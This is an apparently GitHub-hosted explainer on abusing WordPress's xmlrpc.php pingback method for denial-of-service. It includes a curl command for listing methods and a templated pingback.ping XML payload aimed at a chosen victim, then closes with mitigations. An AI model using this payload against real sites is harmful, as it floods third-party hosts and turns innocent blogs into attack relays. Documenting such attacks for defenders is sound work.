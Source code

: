 # Denial of Service

### Purpose / Concept
- The xmlrpc.php endpoint can be abused to perform a denial-of-service attack. A small request to this endpoint can cause WordPress to respond by sending a full page of content to a target of the attacker’s choosing. By coordinating multiple WordPress sites, the combined traffic can overwhelm the target host, potentially knocking it offline due to network congestion.

### Enumerating available methods
- Before exploiting pingback, the attacker enumerates the methods supported by xmlrpc.php using:

```
curl -X POST -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" http://examplewp.com/xmlrpc.php
```

- The server responds with an XML list of methods, for example:

```
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>pingback.extensions.getPingbacks</string></value>
  <value><string>pingback.ping</string></value>
  <value><string>mt.publishPost</string></value>
**** truncated ****
```

- The presence of pingback.ping indicates that pingbacks are enabled.

### Crafting the pingback request
If pingback is enabled, a request can be sent specifying:

- Target URL → the site the attacker wants to DDoS

- Source URL → the WordPress blog sending the pingback

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://**denial-of-service-target**:**portno**</string></value>
</param><param><value><string>http://**blog-url-from-wp**</string>
</value></param></params>
</methodCall>
```

### Effect of the attack
- Multiple WordPress sites sending pingbacks to the same target can generate enough traffic to cause network congestion and downtime. Your WordPress site acts as an unwitting relay, not the actual target.

### Defense / mitigation

- Disable access to xmlrpc.php if the API is not needed.

- Use .htaccess or web server configuration to block the endpoint.

- This prevents pingback abuse and reduces bot traffic/noise in your logs.